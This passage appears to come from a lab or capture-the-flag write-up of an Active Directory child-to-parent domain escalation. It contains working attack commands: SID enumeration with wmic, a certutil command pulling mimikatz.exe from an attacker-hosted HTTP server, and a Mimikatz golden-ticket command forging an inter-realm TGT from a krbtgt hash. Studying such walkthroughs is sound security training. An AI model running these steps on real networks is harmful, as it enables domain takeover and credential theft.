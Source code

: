 ```
wmic group where name="Domain Admins" get name,sid,domain
```

![picture 16](images/e2162f3fd4a140703625faeaaebb190b818e7bd5d14bfabe4e466fc14f256ae9.png)  


Operations.atomic.site:<br/>
`S-1-5-21-3757735274-1965336150-1982876978`
<br/>
Atomic.site:<br/>
`S-1-5-21-95921459-2896253700-3873779052`
<br/>

<br/>

## Forge Inter-realm TGT

In order to get into the Parent DC, with the NTLM of `krbtgt` account, we can forge inter-realm TGT using Mimikatz.
<br/>

In the attacker machine, serve Mimikatz.exe:

```
cd /usr/share/windows-resources/mimikatz/x64
python3 -m http.server 80
```

<br/>

Then in the PSExec shell, download mimikatz:

```
cd C:\Users\Public
certutil -urlcache -f http://192.168.100.11/mimikatz.exe .\mimikatz.exe
```

![picture 17](images/68f9f99a76488d267206f5669f874034148915c7e79551fcd3a81d2aab8d3470.png)  

<br/>

Then run `mimikatz.exe` to forge a inter-realm TGT:

```
kerberos::golden /user:adm_domain /domain:operations.atomic.site /sid:S-1-5-21-3757735274-1965336150-1982876978 /sids:S-1-5-21-95921459-2896253700-3873779052-512 /krbtgt:8e2b8effbf6735b8fb5be206cb3dfead /ticket:C:\Users\Public\forge.kirbi
```
